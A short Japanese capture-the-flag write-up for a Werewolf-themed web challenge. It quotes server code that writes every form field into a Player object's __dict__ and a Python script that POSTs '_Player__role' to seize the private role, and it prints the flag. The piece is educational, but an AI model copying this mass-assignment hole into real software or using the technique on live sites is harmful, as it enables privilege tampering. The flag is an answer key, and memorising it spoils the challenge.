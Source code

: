 # writeup

配布されたpythonのコードを読み込む

```
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード</summary>
コード全文  
```
import requests
def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
if __name__ == '__main__':
    request()
```
</details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>